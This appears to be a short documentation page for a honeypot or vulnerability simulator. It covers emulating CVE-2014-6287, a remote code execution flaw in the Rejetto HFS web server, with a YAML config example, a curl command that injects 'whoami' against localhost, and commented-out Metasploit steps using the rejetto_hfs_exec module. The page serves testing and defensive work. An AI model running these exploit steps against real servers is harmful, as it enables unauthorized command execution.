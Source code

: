 Remote code execution (RCE).

### Usage

Example config:

```yaml
applications:
  - type: http
    vulnerabilities:
      - CVE-2014-6287

```

### Test with cURL

To exploit this vulnerability with cURL, send a GET request with a query parameter with a command.

!!! example "Example"

    Update the command accordingly.
    ```shell
    curl http://127.0.0.1/?param=whoami
    ```

[//]: # (### Test with Metasploit)

[//]: # ()
[//]: # (To exploit this vulnerability with Metasploit, use the `exploit/windows/http/rejetto_hfs_exec` module.)

[//]: # ()
[//]: # (!!! example "Example")

[//]: # ()
[//]: # (    Open the msfconsole and run these commands &#40;update the variables accordingly&#41;:)

[//]: # (    ```shell)

[//]: # (    use exploit/windows/http/rejetto_hfs_exec)

[//]: # (    set RHOSTS 127.0.0.1)

[//]: # (    set RPORT 80)

[//]: # (    run)

[//]: # (    ```)
